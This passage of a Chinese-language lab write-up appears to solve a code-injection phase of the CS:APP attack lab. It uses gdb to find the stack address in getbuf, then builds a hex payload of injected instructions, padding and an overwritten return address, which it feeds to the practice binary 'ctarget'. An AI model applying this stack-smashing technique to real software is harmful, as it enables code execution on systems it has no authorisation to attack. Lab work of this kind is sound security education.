 

接下来查询所需要的下拉栈的首地址，注意到直接在getbuf的第二行加上断点即可完成。

```shell
00000000004017fe <getbuf>:
  4017fe:	48 83 ec 28          	sub    $0x28,%rsp
  401802:	48 89 e7             	mov    %rsp,%rdi
```



故而利用gdb给401802位置加入断点：

```shell
2020012363@hp:~$ gdb ctarget
(gdb) b *0x401802
Breakpoint 1 at 0x401802: file buf.c, line 14.
(gdb)  run -q 
Starting program: /home/2020012363/ctarget -q
Cookie: 0x2c0de9c4
Breakpoint 1, getbuf () at buf.c:14
(gdb) p $rsp
$1 = (void *) 0x5566f4a8
```

查询到下拉栈首地址为0x5566f4a8。



综上所述，如下构造2.txt：

```shell
bf c4 e9 0d 2c
68 42 18 40 00
c3 
00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
00 00 00 00 00
a8 f4 66 55 00 00 00 00
```

参考原理部分，构造由三部分组成：

1. 从下拉栈顶部写入的二进制指令
2. 用来补位的0x00
3. 将return address修改为下拉栈顶部的地址



进行检验：

```shell
cat 2.txt | ./hex2raw | ./ctarget -q
```



### 实验结果
